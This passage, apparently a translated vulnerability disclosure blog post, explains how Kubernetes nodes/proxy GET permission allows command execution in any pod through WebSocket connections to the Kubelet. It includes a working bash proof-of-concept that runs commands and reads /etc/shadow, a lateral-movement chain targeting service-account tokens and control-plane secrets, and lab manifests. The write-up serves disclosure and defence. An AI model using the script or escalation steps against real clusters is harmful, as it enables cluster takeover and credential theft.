端点（以及其他几个）未被列出，因此匹配了_proxy_的默认情况。  
1. **构建授权属性**  
：Kubelet 使用动词 GET  
、资源 nodes  
和子资源 proxy  
构造授权记录。这是它将对照 RBAC 策略检查的内容 (auth.go:136)  
  
这个记录大致会是这样：  

```
authorizer.AttributesRecord{    User:            system:serviceaccount:default:attacker,    Verb:            "get",    Namespace:       "",    APIGroup:        "",    APIVersion:      "v1",    Resource:        "nodes",    Subresource:     "proxy",    Name:            "minikube-m02",    ResourceRequest: true,    Path:            "/exec/default/nginx/nginx",}
```  
1. **将属性返回到过滤器**  
：Kubelet 将构造的授权记录返回到授权过滤器 (auth.go:151)  
  
1. **执行授权检查**  
：Kubelet 执行授权，通常使用 webhook 查询 API 服务器的 RBAC 授权者："用户 system:serviceaccount:default:attacker  
是否可以对资源 nodes/proxy  
执行动词 get  
？"(server.go:356)  
  
**注意**  
  
这是生成 subjectaccessreviews  
日志的地方。  
1. **授权通过**  
：授权者返回允许决定，因为用户的 ClusterRole 授予 nodes/proxy  
具有动词 ["get"]  
。(server.go:365)  
  
**注意**  
  
这是之前错误的结果，即使我们仅有 RBAC get  
动词，也会允许写操作。  
1. **继续处理程序**  
：Kubelet 由于授权成功，将请求传递给链中的下一个过滤器/处理程序 (server.go:384)  
  
1. **路由到 exec 处理程序**  
：请求与对 exec 端点的 GET 请求的已注册路由相匹配，Kubelet 将其分发到处理程序。(server.go:968)  
  
**注意**  
  
这是应该存在第二个授权检查的地方，就像在使用 API 服务器代理路径时一样。(authorize.go:31)  
1. **查找 Pod**  
：Kubelet 在命名空间 default  
中查找目标 Pod nginx  
(server.go:976)  
  
1. **从容器运行时请求 exec URL**  
：Kubelet 从容器运行时接口请求流式 URL 以在指定的 Pod 和容器中执行命令 (server.go:983)  
  
1. **容器运行时返回 URL**  
：CRI 返回一个流端点 URL，WebSocket 连接可以在该 URL 上建立以执行命令  
  
1. **建立 WebSocket 流**  
：Kubelet 将 HTTP 连接升级为 WebSocket，并在客户端和容器运行时之间建立双向流传输 (server.go:988)  
  
1. **在容器中执行命令**  
：容器运行时在 nginx 容器内执行命令 id  
  
1. **返回命令输出**  
：容器运行时通过 WebSocket 连接流式传输命令输出 uid=0(root) gid=0(root) groups=0(root)  
  
1. **流式传输到客户端**  
：Kubelet 将输出流代理回客户端，仅使用 nodes/proxy GET  
权限完成命令执行  
  
### 这演示了什么？  
  
代码审查揭示了两个独立的设计缺陷，它们结合在一起造成了实际问题。  
1. **基于连接协议的授权**  
：Kubelet 根据初始 HTTP 方法而不是正在执行的操作来做出授权决策。WebSocket 连接使用 HTTP GET  
进行初始握手，所以 Kubelet 检查的是 GET  
动词而不是 CREATE  
。  
  
1. **命令执行端点默认使用代理**  
：Kubelet 没有为 /exec  
、/run  
、/attach  
和 /portforward  
等命令执行端点指定子资源。Kubelet 使用 nodes/proxy  
资源授权所有这些端点。单独来看这并不可利用：如果动词映射正确，WebSocket 连接仍然需要 CREATE。授权检查将是 nodes/proxy CREATE  
，正确地阻止只有 GET 权限的用户。  
  
**备注**  
  
仅修复这个漏洞只是将问题往后推迟。添加一个新的 nodes/exec  
资源仍然会授予 nodes/exec GET  
权限，其中应该需要 CREATE  
  
这两个漏洞结合在一起，造成了一个授权绕过，其中常见授予的 nodes/proxy GET  
权限意外地允许在整个集群中的任何 Pod 中执行命令。  
# 检测和建议  
  
令我失望的是，这个报告被关闭为"不修复"（按预期工作），这意味着 nodes/proxy GET  
权限将继续作为集群管理员的路径。  
  
作为集群管理员，您可以使用此检测脚本检查集群中所有具有此权限的服务账户。了解集群的威胁模型可以帮助您确定这是否是一个问题。在多租户集群或将节点视为安全边界的集群中，这更可能是一个威胁。  
  
此功能需要与 Kubelet API 的网络连接。限制流量到 Kubelet 端口可以阻止这种情况，但我尚未测试这可能对集群产生的其他影响。  
  
此次披露产生的讨论建议 Kubernetes 项目继续实现 KEP-2862。此功能尚未正式发布，大多数供应商似乎都不支持它（除了 Datadog 等公司已在其图表中实现它）。这是正确的方向，但不能为底层问题提供修复。我将在下面进一步讨论这个问题。  
# 利用  
  
上述漏洞详情足以理解如何利用这个漏洞。从一个拥有 nodes/proxy GET  
权限的被入侵 Pod 开始，攻击者可以：  
1. **枚举所有 Pod**  
在可到达的节点上，通过 Kubelet 的 /pods  
端点  
  
1. **执行命令**  
在任何 Pod 中，使用 WebSocket 绕过 CREATE  
动词检查  
  
1. **目标特权系统 Pod**  
如 kube-proxy  
获得 root 访问权限  
  
1. **窃取服务账户令牌**  
发现其他节点并在集群中横向移动  
  
1. **访问控制平面 Pod**  
包括 etcd  
、kube-apiserver  
和 kube-controller-manager  
  
1. **提取集群密钥**  
或从特权容器挂载主机文件系统  
  
最终结果是从看起来像是只读权限的权限进行完整的集群妥协。  
## 概念验证  
  
  
  
这是一个快速概念验证脚本，可以用来尝试。  

```
#!/bin/bash# ColorsRED=$(tput setaf 1)BLUE=$(tput setaf 4)YELLOW=$(tput setaf 3)GREEN=$(tput setaf 2)ENDCOLOR=$(tput sgr0)TICK="[${GREEN}+${ENDCOLOR}] "TICK_MOVE="[${GREEN}~>${ENDCOLOR}] "TICK_BACKUP="[${GREEN}<~${ENDCOLOR}] "TICK_INPUT="[${YELLOW}!${ENDCOLOR}] "TICK_ERROR="[${RED}!${ENDCOLOR}] "# ConfigNODE_IP="${NODE_IP:?NODE_IP not set}"TOKEN="${TOKEN:?TOKEN not set}"NAMESPACE="${NAMESPACE:-default}"POD="${POD:-nginx}"CONTAINER="${CONTAINER:-nginx}"exec_cmd() {local cmd="$1"local args=""forargin$cmd;do        args+="&command=$arg"done    args="${args:1}"# strip leading &    timeout 3 websocat --insecure -E \        --header "Authorization: Bearer $TOKEN"\        --protocol v4.channel.k8s.io \"wss://$NODE_IP:10250/exec/$NAMESPACE/$POD/$CONTAINER?output=1&error=1&$args"2>/dev/null \| grep -v '{"metadata":{}'}echo""echo"${TICK}Target: ${YELLOW}$NODE_IP:10250 ${ENDCOLOR}"echo"${TICK}Pod: ${YELLOW}$NAMESPACE/$POD${ENDCOLOR}"echo""echo"${TICK_MOVE}Fetching hostname..."hostname=$(exec_cmd "cat /etc/hostname" | tr -d '\n\r')echo"${TICK}Hostname: ${GREEN}$hostname${ENDCOLOR}"echo""echo"${TICK_MOVE}Fetching identity..."identity=$(exec_cmd "id")echo"${TICK}Identity: ${GREEN}$identity${ENDCOLOR}"echo""echo"${TICK_MOVE}Attempting to read /etc/shadow..."shadow=$(exec_cmd "cat /etc/shadow")if [[ -n"$shadow" ]];thenecho"${TICK}${RED}Successfully read /etc/shadow:${ENDCOLOR}"echo"$shadow"elseecho"${TICK_ERROR}Could not read /etc/shadow"fi
```  
  
如果您想在线尝试，我已发布一个实验室来演示如何在其他 Pod 中执行命令  
  
  
  
Online walkthrough  
  
在线演练（Online walkthrough）  
  
如果您想在本地测试，这是一个最小的清单来入门。  

```
---apiVersion: v1kind: ServiceAccountmetadata:name: attackernamespace: default---apiVersion: rbac.authorization.k8s.io/v1kind: ClusterRolemetadata:name: nodes-proxy-readerrules:  - apiGroups: [""]resources: ["nodes/proxy"]verbs: ["get"]---apiVersion: rbac.authorization.k8s.io/v1kind: ClusterRoleBindingmetadata:name: attacker-nodes-proxy-readersubjects:  - kind: ServiceAccountname: attackernamespace: defaultroleRef:kind: ClusterRolename: nodes-proxy-readerapiGroup: rbac.authorization.k8s.io---apiVersion: v1kind: Podmetadata:name: attackernamespace: defaultspec:serviceAccountName: attackercontainers:    - name: attackerimage: alpinecommand: ["sleep", "infinity"]---apiVersion: v1kind: Podmetadata:name: nginxnamespace: defaultspec:containers:    - name: nginximage: nginx
```  
  
我将在接下来的几周内发布详细的利用教程，逐步涵盖这些技术，包括工具和如何使用此漏洞突破 Pod 到节点的演练。  
# 披露过程  
  
该漏洞于 2025 年 11 月 1 日通过 HackerOne 向 Kubernetes 安全团队报告。  
## 时间线  
<table><thead><tr style="border-top-width: 1px;border-top-style: solid;border-top-color: rgb(204, 204, 204);background-color: white;margin: 0px;padding: 0px;"><th style="font-weight: bold;border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">日期</span></section></th><th style="font-weight: bold;border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">事件</span></section></th></tr></thead><tbody><tr style="border-top-width: 1px;border-top-style: solid;border-top-color: rgb(204, 204, 204);background-color: white;margin: 0px;padding: 0px;"><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">2025 年 11 月 1 日</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">向 Kubernetes 安全团队提交初始报告</span></section></td></tr><tr style="border-top-width: 1px;border-top-style: solid;border-top-color: rgb(204, 204, 204);background-color: rgb(248, 248, 248);margin: 0px;padding: 0px;"><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">2025 年 11 月 14 日</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">请求状态更新</span></section></td></tr><tr style="border-top-width: 1px;border-top-style: solid;border-top-color: rgb(204, 204, 204);background-color: white;margin: 0px;padding: 0px;"><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">2025 年 11 月 25 日</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">报告进行分类</span></section></td></tr><tr style="border-top-width: 1px;border-top-style: solid;border-top-color: rgb(204, 204, 204);background-color: rgb(248, 248, 248);margin: 0px;padding: 0px;"><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">2025 年 12 月 14 日</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">通知团队 90 天披露时间线（2026 年 1 月 30 日）</span></section></td></tr><tr style="border-top-width: 1px;border-top-style: solid;border-top-color: rgb(204, 204, 204);background-color: white;margin: 0px;padding: 0px;"><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">2026 年 1 月 7 日</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">随着披露日期临近请求更新</span></section></td></tr><tr style="border-top-width: 1px;border-top-style: solid;border-top-color: rgb(204, 204, 204);background-color: rgb(248, 248, 248);margin: 0px;padding: 0px;"><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">2026 年 1 月 23 日</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">Kubernetes 安全团队响应：不修复（按预期工作）</span></section></td></tr><tr style="border-top-width: 1px;border-top-style: solid;border-top-color: rgb(204, 204, 204);background-color: white;margin: 0px;padding: 0px;"><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">2026 年 1 月 26 日</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">公开披露</span></section></td></tr></tbody></table>

### Kubernetes 安全团队的回应  
> 非常抱歉延迟了很久。  
> 在与 SIG-Auth 和 SIG-Node 进一步审查后，我们确认了我们的决定，即此行为是**按预期工作的**  
，不会收到 CVE。虽然我们同意 nodes/proxy  
存在风险，但限制此特定路径的补丁需要在 **kubelet**  
（特殊处理 /exec  
路径）和 **kube-apiserver**  
（在将整体路径映射到 nodes/proxy  
后为 /exec  
添加二级路径检查）中更改授权，以强制实施"get"和"create"的双重授权。我们已确定实现和协调这样的双重授权逻辑是脆弱的、架构上不正确的，并且可能不完整的。  
  
> 我们仍然确信，KEP-2862（**细粒度 Kubelet API 授权**  
）才是正确的架构性解决方案。我们不打算改动粗粒度的 nodes/proxy  
授权，而是希望通过将细粒度权限在预计于 2026 年 4 月发布的 1.36 版本中提升到 GA，让监控代理逐步不再需要 nodes/proxy  
。当该特性在 GA 运行一段时间后，我们可以评估弃用旧方法带来的兼容性风险。  
  
> 在 KEP 中，我们把只读端点（/configz/healthz/pods  
）拆分出来，而把代码执行端点（/attach/exec/run  
）保留为一组，因为我们没有“只需要其中一个端点”的使用场景。官方文档（这里）希望能让当前的安全现状更清楚。随着即将到来的发布，我们会强调该特性的重要性，以及使用 nodes/proxy  
的陷阱。  
> 请随时进行您的发布，如果您愿意，请包括此文本。我们希望您的文章将帮助我们鼓励生态系统迁移到 KEP-2862 提供的更安全的授权模型。  
> 此致敬礼，Kubernetes 安全团队  
  
  
  
我理解并赞赏这个回应，但我不同意许多方面。  
### 1. 相同的行为已在其他地方修复  
> "我们确认我们的决定，即此行为是按预期工作的"  
  
  
当 kubectl exec  
命令从默认使用 SPDY 切换到 WebSocket 时，API 服务器开始使用错误的动词授权写操作，这是完全相同的漏洞，但针对 pods/exec  
资源。Kubernetes v1.35 通过添加二级授权检查修复了这个之前报告的问题，该检查明确验证 CREATE 动词，无论 HTTP 方法如何。  
  
讨论修复的注释明确说明这是一个意外的副作用。  

```
// Pod subresources differs on the REST verbs depending on the protocol used// SPDY uses POST that at the authz layer is translated to "create".// Websockets uses GET that is translated to "get".// Since the defaulting to websocket for kubectl in KEP-4006 this caused an// unexpected side effect and in order to keep existing policies backwards// compatible we always check that the "create" verb is allowed.// Ref: https://issues.k8s.io/133515
```  
### 2. 授权不一致  
> "官方文档在这里希望能澄清当前的安全形势。"  
  
  
他们引用的文档指出"kubelet 使用与 apiserver 相同的请求属性方法来授权 API 请求。"然而，授权要求根据您如何访问 Kubelet 的 /exec  
端点而不同。将请求发送到 API 服务器代理路径 $APISERVER/api/v1/nodes/$NODE_NAME/proxy/exec/...  
和直接发送到 Kubelet API $NODE_IP:10250/exec/...  
会导致不同的授权决策。  
  
为了演示，让我们尝试使用 API 服务器代理路径运行 hostname  
。注意我们指示 curl 将其作为 POST  
请求发送。发送的请求将如下所示：  

```http
POST /api/v1/nodes/minikube-m02/proxy/exec/default/nginx/nginx?command=hostname&stdout=true HTTP/2Host: 10.96.0.1User-Agent: curl/8.5.0Accept: */*Authorization: Bearer $TOKEN
```  
  
使用 curl 发送请求：  

```shell
curl -sk -X POST \  -H "Authorization: Bearer $TOKEN" \  "$APISERVER/api/v1/nodes/$NODE_NAME/proxy/exec/default/nginx/nginx?command=hostname&stdout=true"
```  

```
{  "kind": "Status",  "apiVersion": "v1",  "metadata": {},  "status": "Failure",  "message": "nodes \"minikube-m02\" is forbidden: User \"system:serviceaccount:default:attacker\" cannot create resource \"nodes/proxy\" in API group \"\" at the cluster scope",  "reason": "Forbidden",  "details": {    "name": "minikube-m02",    "kind": "nodes"  },  "code": 403
```  
  
如预期，响应是 403 Forbidden  
。API 服务器正确地将 POST  
请求映射为 RBAC CREATE  
动词，我们没有此权限，因此检查失败。  
  
现在让我们通过直接连接到 Kubelet 来尝试在同一 Pod 中运行 hostname  
，使用 WebSocket。记住，WebSocket 使用 HTTP GET  
进行初始握手：  

```
 websocat \  --insecure \  --header "Authorization: Bearer $TOKEN" \  --protocol "v4.channel.k8s.io" \  "wss://$NODE_IP:10250/exec/default/nginx/nginx?output=1&error=1&command=hostname"
```  

```
nginx{"metadata":{},"status":"Success"}
```  
  
该命令成功执行。通过使用 WebSocket 直接连接到 Kubelet，我们绕过了通过 API 服务器阻止我们的授权。相同的操作针对相同的底层 Kubelet 端点（API 服务器代理路径代理请求到 Kubelet），但产生了不同的授权结果。  
  
如果 GET  
和 CREATE  
都授予命令执行权限，那么动词区别就没有意义了。RBAC 的价值在于区分读取和写入操作。  
### 3. KEP-2862 无法解决该漏洞  
> "我们仍然确信 KEP-2862（细粒度 Kubelet API 授权）是正确的架构解决方案。与其改变粗粒度的 nodes/proxy 授权，我们的目标是使其对于监控代理过时...我们已将只读端点（/configz /healthz /pods）分离出来，并将代码执行端点（/attach /exec /run）留为一组，因为我们没有只有其中一个有意义的用例。"  
  
  
KEP-2862（Kubelet 细粒度授权）引入了特定的子资源权限，作为广泛的 nodes/proxy  
权限的替代方案。KEP 说明了其动机：  
> "随着越来越多的应用程序（监控和日志代理）切换到使用 kubelet 认证端口（10250），需要允许访问某些路径而不授予整个 kubelet API 的访问权限。"  
  
  
KEP-2862 提议**添加**  
以下权限，假设如果存在 nodes/proxy  
的替代方案，就不需要使用 nodes/proxy  
。  
<table><thead><tr style="border-top-width: 1px;border-top-style: solid;border-top-color: rgb(204, 204, 204);background-color: white;margin: 0px;padding: 0px;"><th style="font-weight: bold;border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">权限</span></section></th><th style="font-weight: bold;border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">授予的访问权限</span></section></th><th style="font-weight: bold;border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">用例</span></section></th></tr></thead><tbody><tr style="border-top-width: 1px;border-top-style: solid;border-top-color: rgb(204, 204, 204);background-color: white;margin: 0px;padding: 0px;"><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><code style="font-family: SFMono-Regular, Consolas, &#34;Liberation Mono&#34;, Menlo, Courier, monospace;line-height: 1.45;font-size: 13.6px;margin: 0px 2px;padding: 0.2em 0.4em;white-space: nowrap;background-color: rgba(27, 31, 35, 0.05);border-radius: 3px;"><span leaf="">nodes/metrics</span></code></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><code style="font-family: SFMono-Regular, Consolas, &#34;Liberation Mono&#34;, Menlo, Courier, monospace;line-height: 1.45;font-size: 13.6px;margin: 0px 2px;padding: 0.2em 0.4em;white-space: nowrap;background-color: rgba(27, 31, 35, 0.05);border-radius: 3px;"><span leaf="">/metrics</span></code><section><span leaf="">, </span><code style="font-family: SFMono-Regular, Consolas, &#34;Liberation Mono&#34;, Menlo, Courier, monospace;line-height: 1.45;font-size: 13.6px;margin: 0px 2px;padding: 0.2em 0.4em;white-space: nowrap;background-color: rgba(27, 31, 35, 0.05);border-radius: 3px;"><span leaf="">/metrics/cadvisor</span></code><span leaf="">, </span><code style="font-family: SFMono-Regular, Consolas, &#34;Liberation Mono&#34;, Menlo, Courier, monospace;line-height: 1.45;font-size: 13.6px;margin: 0px 2px;padding: 0.2em 0.4em;white-space: nowrap;background-color: rgba(27, 31, 35, 0.05);border-radius: 3px;"><span leaf="">/metrics/resource</span></code><span leaf="">, </span><code style="font-family: SFMono-Regular, Consolas, &#34;Liberation Mono&#34;, Menlo, Courier, monospace;line-height: 1.45;font-size: 13.6px;margin: 0px 2px;padding: 0.2em 0.4em;white-space: nowrap;background-color: rgba(27, 31, 35, 0.05);border-radius: 3px;"><span leaf="">/metrics/probes</span></code></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">指标收集（Prometheus 等）</span></section></td></tr><tr style="border-top-width: 1px;border-top-style: solid;border-top-color: rgb(204, 204, 204);background-color: rgb(248, 248, 248);margin: 0px;padding: 0px;"><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><code style="font-family: SFMono-Regular, Consolas, &#34;Liberation Mono&#34;, Menlo, Courier, monospace;line-height: 1.45;font-size: 13.6px;margin: 0px 2px;padding: 0.2em 0.4em;white-space: nowrap;background-color: rgba(27, 31, 35, 0.05);border-radius: 3px;"><span leaf="">nodes/stats</span></code></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><code style="font-family: SFMono-Regular, Consolas, &#34;Liberation Mono&#34;, Menlo, Courier, monospace;line-height: 1.45;font-size: 13.6px;margin: 0px 2px;padding: 0.2em 0.4em;white-space: nowrap;background-color: rgba(27, 31, 35, 0.05);border-radius: 3px;"><span leaf="">/stats</span></code><section><span leaf="">, </span><code style="font-family: SFMono-Regular, Consolas, &#34;Liberation Mono&#34;, Menlo, Courier, monospace;line-height: 1.45;font-size: 13.6px;margin: 0px 2px;padding: 0.2em 0.4em;white-space: nowrap;background-color: rgba(27, 31, 35, 0.05);border-radius: 3px;"><span leaf="">/stats/summary</span></code></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">资源统计</span></section></td></tr><tr style="border-top-width: 1px;border-top-style: solid;border-top-color: rgb(204, 204, 204);background-color: white;margin: 0px;padding: 0px;"><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><code style="font-family: SFMono-Regular, Consolas, &#34;Liberation Mono&#34;, Menlo, Courier, monospace;line-height: 1.45;font-size: 13.6px;margin: 0px 2px;padding: 0.2em 0.4em;white-space: nowrap;background-color: rgba(27, 31, 35, 0.05);border-radius: 3px;"><span leaf="">nodes/log</span></code></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><code style="font-family: SFMono-Regular, Consolas, &#34;Liberation Mono&#34;, Menlo, Courier, monospace;line-height: 1.45;font-size: 13.6px;margin: 0px 2px;padding: 0.2em 0.4em;white-space: nowrap;background-color: rgba(27, 31, 35, 0.05);border-radius: 3px;"><span leaf="">/logs/</span></code></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">节点日志访问</span></section></td></tr><tr style="border-top-width: 1px;border-top-style: solid;border-top-color: rgb(204, 204, 204);background-color: rgb(248, 248, 248);margin: 0px;padding: 0px;"><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><code style="font-family: SFMono-Regular, Consolas, &#34;Liberation Mono&#34;, Menlo, Courier, monospace;line-height: 1.45;font-size: 13.6px;margin: 0px 2px;padding: 0.2em 0.4em;white-space: nowrap;background-color: rgba(27, 31, 35, 0.05);border-radius: 3px;"><span leaf="">nodes/healthz</span></code></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><code style="font-family: SFMono-Regular, Consolas, &#34;Liberation Mono&#34;, Menlo, Courier, monospace;line-height: 1.45;font-size: 13.6px;margin: 0px 2px;padding: 0.2em 0.4em;white-space: nowrap;background-color: rgba(27, 31, 35, 0.05);border-radius: 3px;"><span leaf="">/healthz</span></code><section><span leaf="">, </span><code style="font-family: SFMono-Regular, Consolas, &#34;Liberation Mono&#34;, Menlo, Courier, monospace;line-height: 1.45;font-size: 13.6px;margin: 0px 2px;padding: 0.2em 0.4em;white-space: nowrap;background-color: rgba(27, 31, 35, 0.05);border-radius: 3px;"><span leaf="">/healthz/ping</span></code><span leaf="">, </span><code style="font-family: SFMono-Regular, Consolas, &#34;Liberation Mono&#34;, Menlo, Courier, monospace;line-height: 1.45;font-size: 13.6px;margin: 0px 2px;padding: 0.2em 0.4em;white-space: nowrap;background-color: rgba(27, 31, 35, 0.05);border-radius: 3px;"><span leaf="">/healthz/syncloop</span></code></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">健康检查</span></section></td></tr><tr style="border-top-width: 1px;border-top-style: solid;border-top-color: rgb(204, 204, 204);background-color: white;margin: 0px;padding: 0px;"><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><code style="font-family: SFMono-Regular, Consolas, &#34;Liberation Mono&#34;, Menlo, Courier, monospace;line-height: 1.45;font-size: 13.6px;margin: 0px 2px;padding: 0.2em 0.4em;white-space: nowrap;background-color: rgba(27, 31, 35, 0.05);border-radius: 3px;"><span leaf="">nodes/pods</span></code></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><code style="font-family: SFMono-Regular, Consolas, &#34;Liberation Mono&#34;, Menlo, Courier, monospace;line-height: 1.45;font-size: 13.6px;margin: 0px 2px;padding: 0.2em 0.4em;white-space: nowrap;background-color: rgba(27, 31, 35, 0.05);border-radius: 3px;"><span leaf="">/pods</span></code><section><span leaf="">, </span><code style="font-family: SFMono-Regular, Consolas, &#34;Liberation Mono&#34;, Menlo, Courier, monospace;line-height: 1.45;font-size: 13.6px;margin: 0px 2px;padding: 0.2em 0.4em;white-space: nowrap;background-color: rgba(27, 31, 35, 0.05);border-radius: 3px;"><span leaf="">/runningpods</span></code></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">Pod 列表和状态</span></section></td></tr></tbody></table>  


如果 Kubernetes 实现了这个，它仍然无法解决潜在的问题。虽然 KEP-2862 肯定是正确方向的一步，但由于以下几个原因它无法解决潜在的问题：  
1. KEP-2862 目前处于测试版，**而不是**  
正式版本，因此"由于后续版本中可能存在不兼容的更改，仅建议用于非关键业务用途。"。您必须在 Kubelet 上使用 --feature-gates=KubeletFineGrainedAuthz=true  
显式启用它。  
  
1. 它不为 /attach  
、/exec  
、/run  
或 /portforward  
提供替代方案。从安全的角度来看，这是有问题的，因为任何需要这些操作的工作负载仍然必须使用 nodes/proxy  
。  
  
**备注**  
  
有趣的是，KEP-2862 中完全没有提及 /portforward  
。  
1. 最后，KEP-2862 在授权 nodes/proxy GET  
时无法解决代码中的潜在漏洞。  
  
重申一下，问题是连接协议（即 WebSocket）和 RBAC 动词（GET  
与 CREATE  
）之间的不匹配。Kubelet 根据在初始 WebSocket 连接建立期间发送的 HTTP GET  
做出授权决策，而不是根据正在执行的实际操作。  
### 4. 子资源映射已存在  
> "限制此特定路径的补丁需要在 kubelet（特殊处理 /exec 路径）和 kube-apiserver（在将整体路径映射到 nodes/proxy 之后为 /exec 添加二级路径检查）中更改授权...我们已确定实现和协调这样的双重授权逻辑是脆弱的、架构上不正确的，并且可能不完整的。"  
  
  
Kubelet 的 auth.go  
已经将特定路径映射到专用子资源：  

```
    switch {    case isSubpath(requestPath, statsPath):        subresources = append(subresources, "stats")    case isSubpath(requestPath, metricsPath):        subresources = append(subresources, "metrics")    case isSubpath(requestPath, logsPath):        // "log" to match other log subresources (pods/log, etc)        subresources = append(subresources, "log")    case isSubpath(requestPath, checkpointPath):        subresources = append(subresources, "checkpoint")    case isSubpath(requestPath, statusz.DefaultStatuszPath):        subresources = append(subresources, "statusz")    case isSubpath(requestPath, flagz.DefaultFlagzPath):        subresources = append(subresources, "configz")    default:        subresources = append(subresources, "proxy")    }
```  
  
API 服务器已经执行二级授权。如第 1 点所示，pods/exec 修复在 authorize.go 中添加了二级授权检查，无论 HTTP 方法如何都验证 CREATE。所提议修复的两个部分都遵循已经存在的模式。  
# 要点和思考  
  
Kubernetes 是世界上许多云基础设施的支撑，任何在集群中的每个 Pod 中意外执行代码的能力的安全影响，而无需生成审计日志，这是一个巨大的风险，使许多 Kubernetes 集群易受攻击。  
  
如果您正在运行 Kubernetes，值得检查您的集群，以确定这是否是您应该跟踪的风险。  
  
这种情况让我想起了 Active Directory 中的 Kerberoasting，一种"按预期工作"的架构设计，攻击者已经在十多年内经常利用。我希望这能得到修复，这样我就不能在以后的评估中使用它。  
  
这是一个非常耗时的项目，在过去几个月中花费了太多的夜晚和周末，我想感谢以下人为他们花时间审查这项研究、与我一起深入了解 Kubernetes 源代码以及在发布前帮助我改进它。  
- Iain Smart  
  
- Rory McCune  
  
- Jay Beale  
  
- Andreas Kellas  
  
- Maria Khodak  
  
- Mark Manning  
  
- CJ Cullen  
  
- Julien Boeuf  
  
- Ayub Yusuf  
  
---  
# 附录：受影响的 Helm 图表  
  
以下 69 个 Helm 图表被发现以某种方式使用 nodes/proxy  
权限。每个链接都指向您可以下载和检查的图表。  
<table><thead><tr style="border-top-width: 1px;border-top-style: solid;border-top-color: rgb(204, 204, 204);background-color: white;margin: 0px;padding: 0px;"><th style="font-weight: bold;border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">图表</span></section></th><th style="font-weight: bold;border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">资源</span></section></th><th style="font-weight: bold;border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">动词</span></section></th><th style="font-weight: bold;border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">链接</span></section></th></tr></thead><tbody><tr style="border-top-width: 1px;border-top-style: solid;border-top-color: rgb(204, 204, 204);background-color: white;margin: 0px;padding: 0px;"><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">aws/appmesh-prometheus:1.0.3</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">nodes/proxy</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">GET, LIST, WATCH</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">https://aws.github.io/eks-charts/appmesh-prometheus-1.0.3.tgz</span></section></td></tr><tr style="border-top-width: 1px;border-top-style: solid;border-top-color: rgb(204, 204, 204);background-color: rgb(248, 248, 248);margin: 0px;padding: 0px;"><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span 